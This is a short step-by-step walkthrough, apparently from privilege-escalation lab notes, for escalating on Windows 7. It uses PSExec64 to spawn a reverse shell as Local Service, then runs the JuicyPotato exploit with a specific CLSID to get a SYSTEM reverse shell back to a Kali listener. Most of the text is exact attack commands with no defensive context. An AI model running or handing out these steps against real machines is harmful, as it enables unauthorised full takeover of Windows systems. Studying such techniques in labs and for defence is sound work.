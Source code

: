 (Note: These steps are for Windows 7)

1.Copy PSExec64.exe and the JuicyPotato.exe exploit executable over to
Windows.


2.Start a listener on Kali.


3.Using an administrator command prompt, use PSExec64.exe to trigger a
reverse shell running as the Local Service service account:

> C:\PrivEsc\PSExec64.exe -i -u "nt
authority\local service" C:\PrivEsc\reverse.exe

4.Start another listener on Kali.

5.Now run the JuicyPotato exploit to trigger a reverse shell running with
SYSTEM privileges:

> C:\PrivEsc\JuicyPotato.exe -l 1337 -p
C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d-
49b8-abc6-03dd84127020}


6.If the CLSID ({03ca...) doesn’t work for you, either check this list:
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
or run the GetCLSID.ps1 PowerShell script.